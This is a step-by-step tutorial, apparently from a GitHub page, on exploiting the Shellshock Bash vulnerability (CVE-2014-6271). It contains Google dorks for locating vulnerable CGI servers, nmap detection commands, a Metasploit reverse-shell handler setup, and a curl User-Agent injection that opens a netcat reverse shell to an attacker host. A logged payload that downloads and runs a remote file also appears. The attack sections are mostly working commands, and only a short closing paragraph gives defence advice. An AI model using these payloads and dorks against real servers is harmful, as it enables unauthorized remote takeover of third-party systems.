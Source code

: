 ## Exploit Shellshock Vulnerability CVE 2014-6271 using Metasploit

A recent study from July 2019 shows that the security vulnerability called **ShellShock** CVE-2014-6271 discovered in 2014 would still be present on a large number of servers in the world although patchs have been created since several years. An attacker could use this flaw to override or bypass environment restrictions to execute shell commands. Certain services and applications allow remote unauthenticated attackers to provide environment variables, allowing them to exploit this issue.

**Shellshock**, also known as **Bashdoor**, is a family of security bugs in the widely used Unix Bash shell, the first of which was disclosed on 24 September 2014\. Many Internet-facing services, such as some web server deployments, use Bash to process certain requests, allowing an attacker to cause vulnerable versions of Bash to execute arbitrary commands. This can allow an attacker to gain unauthorized access to a computer system.

GNU Bash through 4.3 processes trailing strings after function definitions in the values of environment variables, which allows remote attackers to execute arbitrary code via a crafted environment, as demonstrated by vectors involving the **ForceCommand** feature in **OpenSSH** sshd, the **mod_cgi** and **mod_cgid** modules in the **Apache HTTP Server**, scripts executed by unspecified **DHCP clients**, and other situations in which setting the environment occurs across a privilege boundary from Bash execution, aka “ShellShock”.

**Source:** [cve.mitre.org](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-6271)

* * *

###### ANATOMY OF THE ATTACK

**Test your environment**

Just run this bash script in your system and you will see if you are vulnerable or not:

```none
env 'VAR=() { :;}; echo Bash is vulnerable!' 'FUNCTION()=() { :;}; echo Bash is vulnerable!' bash -c "echo Bash Test"
```

**Can I detect if someone has exploited this against me?**

We would recommend reviewing your HTTP logs and check if there is anything suspicious. An example of a malicious pattern:

```none
192.168.1.1 – – [25/Sep/2014:14:00:00 +0000] "GET / HTTP/1.0"  400 349 "() { :; }; wget -O /tmp/besh http://192.168.1.1/filename; chmod 777 /tmp/besh; /tmp/besh;"
```

There are also some patches for bash that log every command that is being passed to the bash interpreter. This is a good way to see if someone has exploited your machine. It won’t prevent someone from exploiting this vulnerability, but it will log the attackers actions on the system.

**How serious is the threat?**

This bug is very dangerous indeed, but not **EVERY** system is vulnerable. Special conditions must be met for a web server to be exploited. One of the biggest problems now is that when patches are published, researchers will look for other ways to exploit bash, explore different conditions that enable it to be exploited, etc. So a patch that helps prevent remote code execution can’t do anything against, for example, a file overwrite. So there will probably be a series of patches and in the meantime systems are still vulnerable.

* * *

###### GOOGLE DORK

There is no doubt that there are thousand and one ways to find vulnerable targets for this type of attack. In order to cut short, we are going to use a non-exhaustive list of Google Dork to demonstrate how it's easy for a blackhat to build a list of potential vulnerable websites.

```none
sitemap.xml filetype:xml intext:"cgi-bin"
filetype:sh inurl:cgi-bin
filetype:sh
intext:cgi-bin
intitle:apache "cgi-bin"
inurl:cgi-bin
inurl:wspd_cgi.sh
inurl:wslb.sh
inurl:"server-status" intitle:apache "cgi-bin"
inurl:cgi-bin "GATEWAY_INTERFACE = CGI"
inurl:cgi-bin inurl:printenv intext:SERVER_ADDR
```

* * *

###### VULNERABILITY ANALYSIS

In order to detect the vulnerability, we can use **nmap**. To detect this vulnerability the script **http-shellshock** executes a command that prints a random string and then attempts to find it inside the response body. Web apps that don't print back information won't be detected with this method.

```bash
nmap -sV -p- --script http-shellshock <target>
nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/bin,cmd=ls <target>
```

**Output**

```none
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
| http-shellshock:
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known as Shellshock. It seems the server
|       is executing commands injected via malicious HTTP headers.
|
|     Disclosure date: 2014-09-24
|     References:
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://seclists.org/oss-sec/2014/q3/685
|       http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
```

Once the vulnerability is discovered by the hacker, it can exploit it using Metasploit.

* * *

###### CREATE MSF SESSION

Once a potential flaw has been discovered in an environment, it can easily be exploited as demonstrated below. In order to open a session from our targeted website we will need to create an exploit multi-handler on our **Metasploit**. This can be done very quickly using the below commands.

```bash
# Open Metasploit
msfconsole

msf > use exploit/multi/handler
msf exploit(multi/handler) > set LHOST 0.0.0.0
msf exploit(multi/handler) > set LPORT 4444
msf exploit(multi/handler) > set PAYLOAD linux/x86/shell/reverse_tcp
msf exploit(multi/handler) > show options
```

**Output**

![image-1](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/00bbf7194c2d86d6fe89edf34e38d7be-1.png "Image-1")

On the above example we are using a Linux X86 Shell Reverse TCP payload, off course the type of payload shall be different if we are targeting a Windows machine.

* * *

###### EXPLOIT THE TARGET

We are now going to send our exploit in order to create a reverse shell using a bash terminal and forward the traffic through the MSF handler using TCP protocol.

**Bash Command**

```bash
# Replace "YOUR-IP" with your tunnel IP or host adddress
# Replace "YOUR-PORT" with the port you configured
curl -k -H 'User-Agent: () { :;}; /bin/bash -c "nc YOUR-IP YOUR-PORT -e /bin/sh"' http://localhost:8080/cgi-bin/vulnerable
```

You are done !! If your targeted website is vulnerable to CVE-2014-7169 exploit, a session will be created in your **Metasploit** allowing you to take over the targeted server.

* * *

###### HOW TO PROTECT YOURSELF FROM SHELLSHOCK VULNERABILITIES

The answer is simple: patch your system. If your system is not yet patched, you have no one to blame but yourself. This vulnerability has been out for years, and pretty much all systems have patches available. To cut short, the best way to protect yourself against this type of vulnerability is to keep your system up to date applying all the fixes released for this exploit.
